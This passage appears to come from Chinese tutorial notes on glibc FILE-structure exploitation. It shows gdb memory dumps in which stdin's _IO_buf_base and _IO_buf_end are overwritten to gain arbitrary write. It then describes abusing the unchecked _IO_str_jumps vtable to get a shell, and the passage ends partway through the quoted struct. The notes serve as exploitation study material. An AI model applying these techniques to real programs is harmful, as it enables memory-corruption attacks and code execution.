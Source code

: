 ```
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/vb/桌面/tst/1/t1
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/vb/桌面/tst/1/t1
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/vb/桌面/tst/1/t1
0x0000000000602000 0x0000000000623000 0x0000000000000000 rw- [heap]
```

分配的堆大小是 0x400 个字节，正好对应于_IO_buf_base～_IO_buf_end 在进行写入后，可以看到缓冲区中有我们写入的数据，之后目的地址栈中的缓冲区也会写入数据

```
0x602000:   0x0000000000000000  0x0000000000000411 <== 分配0x400大小
0x602010:   0x000000000a333231  0x0000000000000000 <== 缓冲数据
0x602020:   0x0000000000000000  0x0000000000000000
0x602030:   0x0000000000000000  0x0000000000000000
0x602040:   0x0000000000000000  0x0000000000000000
```

接下来我们尝试修改_IO_buf_base 来实现任意地址读写，全局缓冲区 buf 的地址是 0x7ffff7dd2740。修改_IO_buf_base 和_IO_buf_end 到缓冲区 buf 的地址

```
0x7ffff7dd18e0 <_IO_2_1_stdin_>:    0x00000000fbad2288  0x0000000000602013
0x7ffff7dd18f0 <_IO_2_1_stdin_+16>: 0x0000000000602014  0x0000000000602010
0x7ffff7dd1900 <_IO_2_1_stdin_+32>: 0x0000000000602010  0x0000000000602010
0x7ffff7dd1910 <_IO_2_1_stdin_+48>: 0x0000000000602010  0x00007ffff7dd2740 <== _IO_buf_base
0x7ffff7dd1920 <_IO_2_1_stdin_+64>: 0x00007ffff7dd27c0  0x0000000000000000 <== _IO_buf_end
0x7ffff7dd1930 <_IO_2_1_stdin_+80>: 0x0000000000000000  0x0000000000000000
0x7ffff7dd1940 <_IO_2_1_stdin_+96>: 0x0000000000000000  0x0000000000000000
0x7ffff7dd1950 <_IO_2_1_stdin_+112>:    0x0000000000000000  0xffffffffffffffff
0x7ffff7dd1960 <_IO_2_1_stdin_+128>:    0x0000000000000000  0x00007ffff7dd3790
0x7ffff7dd1970 <_IO_2_1_stdin_+144>:    0xffffffffffffffff  0x0000000000000000
0x7ffff7dd1980 <_IO_2_1_stdin_+160>:    0x00007ffff7dd19c0  0x0000000000000000
0x7ffff7dd1990 <_IO_2_1_stdin_+176>:    0x0000000000000000  0x0000000000000000
0x7ffff7dd19a0 <_IO_2_1_stdin_+192>:    0x00000000ffffffff  0x0000000000000000
0x7ffff7dd19b0 <_IO_2_1_stdin_+208>:    0x0000000000000000  0x00007ffff7dd06e0
```

之后 scanf 的读入数据就会写入到 0x7ffff7dd2740 的位置

```
0x7ffff7dd2740 <buf>:   0x00000a6161616161  0x0000000000000000
0x7ffff7dd2750 <buffer>:    0x0000000000000000  0x0000000000000000
0x7ffff7dd2760 <buffer>:    0x0000000000000000  0x0000000000000000
0x7ffff7dd2770 <buffer>:    0x0000000000000000  0x0000000000000000
0x7ffff7dd2780 <buffer>:    0x0000000000000000  0x0000000000000000
```

### _IO_str_jumps -> overflow

> 加入的是 check 是针对 ``_IO_FILE_plus`` 的 vtable 检查，没有对 `` _IO_str_jumps`` vtable 进行检查。劫持这个后者的 vtable ，找调用这个虚函数的函数运行 getshell 

`libc`中不仅仅只有`_IO_file_jumps`这么一个`vtable`，还有一个叫`_IO_str_jumps`的 ，这个 `vtable` 不在 check 范围之内。

```
const struct _IO_jump_t _IO_str_jumps libio_vtable =
{
  JUMP_INIT_DUMMY,
  JUMP_INIT(finish, _IO_str_finish),
  JUMP_INIT(overflow, _IO_str_overflow),
  JUMP_INIT(underflow, _IO_str_underflow),
  JUMP_INIT(uflow, _IO_default_uflow),
  JUMP_INIT(pbackfail, _IO_str_pbackfail),
  JUMP_INIT(xsputn, _IO_default_xsputn),
  JUMP_INIT(xsgetn, _IO_default_xsgetn),
  JUMP_INIT(seekoff, _IO_str_seekoff),
  JUMP_INIT(seekpos, _IO_default_seekpos),
  JUMP_INIT(setbuf, _IO_default_setbuf),
```